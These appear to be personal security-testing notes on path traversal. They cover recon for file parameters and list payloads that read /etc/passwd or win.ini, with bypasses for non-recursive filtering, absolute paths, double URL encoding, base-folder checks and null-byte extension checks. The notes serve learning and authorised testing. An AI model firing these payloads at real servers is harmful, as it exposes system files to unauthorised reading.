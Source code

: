 ![[Path Traversal.png]]
# Recon

Identify any app functionality that is likely to involve retrieval of data from a server's filesystem. Look for any input fields that reference a file or directory name, or that contain any file extensions such as:

```html
?file=test
?item=test.html
```

After identifying potential targets for path traversal testing, you must test every instance individually to determine if user controllable data is used to interact with the server filesystem in an unsafe way.
# No Defenses - Basic Example

The following is a basic payload that can be used to test for path traversal vulnerabilities when the app does not implement any input validation. This payload will step up 3 directories to reach the filesystem root, then reference another common file depending on the OS in use:

```bash
../../../etc/passwd
../../../windows/win.ini
```

>[!info]
>Many apps that place user input in file paths implement some defence against traversal attacks.
# Non-Recursive Filtering Bypass

The app may be filtering out the `../` characters, but not in a recursive manner:

```bash
....//....//....//etc/passwd
..././..././..././etc/passwd
```
# Absolute Path Bypass

This payload references the file directly without the use of the traversal sequences:

```bash
/etc/passwd
```
# Encoding Bypass

Try double URL encoding the following payload:

```bash
../../../etc/passwd
```

Other variations could be encoding only the `/` character in `../`:

```bash
..%25%32%66
```

URL encode the `/` character `..%2f` then URL encode only the `%` character in `..%2f`:

```bash
..%252f
```

>[!info]
>Burp Pro includes a path traversal fuzzing wordlist that has many variations of encoding sequences to use.
# Validation of Starting Path Bypass

Sometimes, the app requires that the supplied filename begins with a base folder. You can include this base folder and add in the traversal sequences after it:

```bash
/var/www/images/../../../etc/passwd
```
# File Extension Validation Bypass

If the app requires that the filename must end with a certain file extension, you can inject a null byte to possible terminate the file path before the required extension:

```bash
../../../etc/passwd%00.png
```

